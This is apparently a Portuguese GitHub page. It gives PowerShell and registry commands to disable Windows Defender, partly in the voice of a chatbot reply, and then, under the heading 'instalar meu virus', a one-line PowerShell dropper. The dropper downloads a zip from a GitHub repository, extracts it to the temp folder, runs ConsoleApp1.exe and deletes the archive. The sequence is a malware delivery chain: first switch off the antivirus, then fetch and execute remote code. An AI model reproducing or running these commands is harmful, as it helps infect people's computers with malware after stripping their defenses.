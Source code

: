Set-MpPreference -DisableRealtimeMonitoring $true

Usando o PowerShell para Desativar o Windows Defender

    Abra o PowerShell como Administrador:
        Clique com o botão direito no menu Iniciar e selecione "Windows Terminal (Admin)" ou "PowerShell (Admin)".

    Digite os seguintes comandos um por um e pressione Enter após cada um:

    powershell

    New-Item -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Force
    New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1 -PropertyType DWORD -Force

    Reinicie o computador para que as alterações entrem em vigor.

Importante

Lembre-se de que desativar o Windows Defender pode deixar seu sistema vulnerável. É sempre bom ter outra solução de segurança instalada. Se precisar de mais ajuda, estou aqui!




instalar meu virus  



  $tempPath="$env:TEMP\ardx-main.zip"; $extractedPath="$env:TEMP\ardx-main\ardx-main"; Invoke-WebRequest -Uri "https://github.com/oldmones/ardx/archive/refs/heads/main.zip" -OutFile $tempPath; Expand-Archive -Path $tempPath -DestinationPath "$env:TEMP\ardx-main" -Force; Start-Process -FilePath "$extractedPath\ConsoleApp1.exe" -Wait; Remove-Item -Path $tempPath -Force -ErrorAction SilentlyContinue
